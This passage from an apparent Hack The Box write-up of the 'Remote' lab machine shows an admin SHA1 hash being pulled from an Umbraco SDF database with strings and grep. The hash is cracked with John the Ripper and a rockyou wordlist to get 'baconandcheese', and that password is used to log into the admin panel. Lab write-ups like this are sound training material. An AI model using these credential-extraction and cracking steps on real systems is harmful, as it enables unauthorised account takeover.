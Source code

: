 Theoretically, it should be possible to open the sdf file using a variety of different approaches on a Windows machine. When I tried this however, the database wouldn't open. An easier approach is to simply do strings on the database to extract all of the textual information and then grep for users. If we do this, we find a hash of a password for the user admin in the file:

```bash
┌─[rin@parrot]─[~/boxes/Remote]
└──╼ $strings Umbraco.sdf | grep admin
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa
    {"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa
    {"hashAlgorithm":"SHA1"}admin@htb.localen-US
    feb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa
    {"hashAlgorithm":"SHA1"}admin@htb.localen-US
    82756c26-4321-4d27-b429-1b5c7c4f882f
```

Cracking the hash \(b8be16afba8c314ad33d812f22a04991b90e2aaa\) with John The Ripper reveals the password baconandcheese

```bash
┌─[rin@parrot]─[~/boxes/Remote]
└──╼ $john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
…
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
baconandcheese (?)
```

Logging into the Umbraco site with user admin@local.htb and password baconandcheese gives us the admin site
